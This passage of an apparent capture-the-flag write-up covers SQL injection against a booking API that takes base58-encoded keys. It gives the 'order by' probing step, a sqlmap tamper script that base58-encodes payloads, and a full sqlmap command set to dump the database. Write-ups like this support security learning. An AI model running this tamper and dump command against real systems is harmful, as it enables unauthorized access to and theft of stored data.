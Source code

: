 ![](CYBERSECURITY/IMAGES/Pasted%20image%2020250702163611.png)


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250702163714.png)

No bad request so it may work, let's try to enumerate the number of rows by using `order by`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250702163810.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250702163858.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250702163911.png)

On `3` we get a bad request, which means that SQLI is possible, we can automate the process with `sqlmap` but we need a tamper, a tamper is a little Python hook that sits between the tool and the target, grabbing every injection payload sqlmap generates and transforming it before it’s sent. we need it thanks to the `base58` format, let's use this script:

```python
from lib.core.enums import PRIORITY
import base58

__priority__ = PRIORITY.HIGHEST

def tamper(payload, **kwargs):
    """
    Encode the payload with base58 :)
    """
    if payload:
        prefixed_payload = f"booking_id:{payload}"
        encoded_payload = base58.b58encode(prefixed_payload.encode()).decode()
        return encoded_payload
    return payload
```

Now, we need to create a tamper.py file with those contents and an `__init__.py` file too, once we do it, we can send the following `sqlmap` command:

```bash
sqlmap -u "http://IP/api/booking-info?booking_key=" -p "booking_key" --tamper=PATH TO TAMPER.PY/tamper.py --dbms=sqlite --technique=U --string="not found" --random-agent --level=5 --risk=3 --dump -batch
```


Make sure you got `base58` on pip before using the command:

```
pip install base58
```

We can see this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250702164805.png)

